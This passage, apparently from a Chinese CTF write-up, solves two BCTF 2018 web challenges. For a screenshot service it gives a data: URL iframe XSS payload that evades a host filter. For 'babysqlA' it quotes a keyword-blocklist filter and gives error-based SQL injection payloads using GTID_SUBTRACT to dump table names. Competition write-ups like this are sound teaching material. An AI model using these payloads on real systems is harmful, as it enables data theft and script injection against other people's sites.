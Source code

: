 截图中并不包含flag，因为页面较长，所以未能显示:

解决方法1：

```
First we tried using Fragment identifier #line=50,100 to make puppeteer skip the first 50 lines but since
puppeteer does not wait for the page to scroll we cannot do that. The app send the request with our
custom http header if we wanted to that gave us a hint the solution in the headers, and yeah there is a
header called Range and you can specify the begging byte offset and the end byte offset.
```

添加header: `TIM截图20181129223840.png`

解决方法2:

在提交url截屏的时候有个host的过滤，不过可以用data协议进行绕过，使得host为空串，includes为真，并且可以直接插入标签进行XSS，payload如下：

```
data:text/html,<iframe style='position:absolute;left:0;top:-1500px;background:white;' width=100% height=10000 src=http://47.95.221.26:23333/5E192BCA-1C3F-4CE8-933C-D8B880D72EAD.txt></iframe>
```

 最终得到flag:

![](/assets/bctf/TIM截图20181129223424.png)

## babysqlA

```
export function checkHint (hint) {
  return ! / |;|\+|-|\*|\/|<|>|~|!|\d|%|\x09|\x0a|\x0b|\x0c|\x0d|`|gtid_subset|hash|json|st\_|updatexml|extractvalue|floor|rand|exp|json_keys|uuid_to_bin|bin_to_uuid|union|like|sleep|benchmark/ig.test(hint)
}
```

网站使用webpak打包，所以会有`.map`文件。

可以看到两个函数:

![](/assets/bctf/20181130080726-eb7ce608-f433-1.png)

![](/assets/bctf/20181130080726-eb9fe392-f433-1.png)

`searchHints`中用到的`captcha`就是从`getCaptcha`中得到的，于是:

![](/assets/bctf/20181130080727-ebd4249a-f433-1.png)

payload: `captcha=xxxxxxxx&hint='||GTID_SUBTRACT(((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),'a')#`

可以看到表明乱码，并且很长，并且由于`GTID_SUBSTRACT`报错有长度限制，所以，flag可能放在后边，没显示出来，引入`REVERSE`函数。

payload: `captcha=xxxxxxxx&hint='||GTID_SUBTRACT((REVERSE((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))),'a')#`
